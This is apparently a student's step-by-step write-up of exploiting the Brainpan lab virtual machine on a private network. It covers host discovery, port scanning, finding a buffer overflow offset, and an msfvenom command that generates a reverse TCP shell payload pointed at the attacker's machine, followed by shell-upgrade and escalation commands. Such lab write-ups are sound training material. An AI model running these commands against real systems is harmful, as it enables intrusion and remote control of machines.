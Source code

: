 ﻿# Brainpain 192.168.56.102
## Andrea Zonnekus 18758119

1. Use netdiscover to locate the IP address
   1. sudo netdiscover -I eth0 -pf > netdiscover

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.001.png)

1. Use nmap to enumerate the ports
   1. sudo nmap -Pn  -F -oX brain\_host.xml 192.168.56.100

All ports with this option are filtered, tried specifying range 

1. sudo nmap -Pn -p- 192.168.56.102/24

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.002.png)

Seems like host was reassigned??

1. ` `Navigate to the host
   1. wget on host refused
   1. try both ports for content

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.003.png) 


![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.004.png)Nothing interesting

1. Check some common subdirectories

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.005.png)

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.006.png)

Interesting



1. Run the exe file with wine

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.007.png)Abyss is a telnet service

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.008.png)



1. Buffer overflow

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.009.png)

Need to do some kind if investigation into the binary

https://www.megabeets.net/a-journey-into-radare-2-part-1/

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.010.png)



Overflow again cause I didn’t check the EIP before

b=`/usr/share/metasplot-framework/tools/exploit/pattern\_create.rb -l 1024`

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.011.png)

Looks like the address 35724134 is where the executable area starts

/usr/share/metasplot-framework/tools/exploit/pattern\_offset.rb -l 35724134

Offset is 524



Python script to overflow into the esp:

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.012.png)

Create badchars and send them through:

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.013.png)

Generate a reverse shell and add the bytes to the script:

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.014.png)

Generate a reverse shell with the correct infrastructure:

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.015.png)



After changing the host to the attacking machine and fixing the reference to the encoder, was able to launch a reverse shell:

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.016.png)

Final fix because I’m actually using kali:

msfvenom -p linux/x86/shell/reverse\_tcp LPORT=4444 LHOST=192.168.56.102 -b “\x00” -e x86/shikata\_ga\_nai -f cs

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.017.png)



After some time fine-tuning:

python -c ‘import pty; pty.spawn(“/bin/bash”)’

!/bin/bash

whoami

![](brainpan_steps/Aspose.Words.1e32ddea-f5a3-4c5f-a1d8-3a2ec9cee0ff.018.png)
